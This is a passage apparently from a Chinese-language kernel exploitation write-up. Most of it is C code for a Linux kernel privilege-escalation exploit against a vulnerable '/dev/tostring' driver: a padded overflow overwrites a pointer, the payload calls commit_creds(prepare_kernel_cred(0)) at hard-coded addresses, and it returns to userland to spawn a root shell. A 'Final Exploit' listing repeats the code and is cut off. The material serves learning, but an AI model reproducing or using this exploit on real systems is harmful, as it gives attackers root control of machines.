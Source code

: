 ```
    tf.eip = &amp;get_shell;
    tf.esp -= 1024;
`}`
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xC10711F0;
void* (*commit_creds)(void*) KERNCALL = (void*) 0xC1070E80;
void payload(void)`{`
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
          "iret;");
`}`

int main(void)`{`
    char Padding[9] = "AAAAAAAA";
    char Eip[5] ;
    init_tf_work();
    int fd = open("/dev/tostring",2);
    for(int i = 0;i &lt; 0x40; i++)
        write(fd,Padding,sizeof(Padding));
    write(1,Eip,sizeof(Eip));
    *((void**)(Eip)) = &amp;payload;
    write(fd,Eip,sizeof(Eip));
    return 0;
`}`
```

可以发现，核心利用代码已被注入，接下来只要调用read函数将会调用我们的利用逻辑。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-16-120307.png)

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame`{`
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
`}`__attribute__((packed));
struct trap_frame tf;
static char receive[256];
void get_shell(void)`{`
    execl("/bin/sh", "sh", NULL);
`}`
void init_tf_work(void)`{`
    asm("pushl %cs;popl tf+4;"    //set cs
        "pushfl;popl tf+8;"       //set eflags
        "pushl %esp;popl tf+12;"
        "pushl %ss;popl tf+16;");
    tf.eip = &amp;get_shell;
    tf.esp -= 1024;
`}`
#define KERNCALL __attribute__((regparm(3)))
```